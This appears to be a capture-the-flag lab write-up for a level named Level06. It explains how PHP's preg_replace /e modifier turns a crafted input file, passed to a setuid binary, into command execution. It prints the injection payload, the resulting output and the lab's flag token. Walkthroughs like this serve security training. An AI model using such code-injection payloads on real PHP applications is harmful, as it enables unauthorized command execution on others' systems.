### Level06

-There is a php script with preg_replace

-When we use preg_replace with /e, the replacement string is a PHP expression. So when you use a backreference in the
eplacement expression, you need to put the backreference inside quotes, or otherwise it would be interpreted as PHP code.

-so we can exploit this

-regex to print:
```
echo "This is the value of the var named $name: {${$name}}";
```
-so for getflag => {${\`getflag\`}}

- change it to [x {${(\`getflag\`)}}] so the preg_replace with /e works 

-we put it in a file in tmp and give to the binary in the first arg the path to the file we created

-We got => PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1

-the flag is => wiok45aaoguiboiki2tuin6ub

[Link text Here](https://www.php.net/manual/fr/function.preg-replace.php) => /e modifier, name
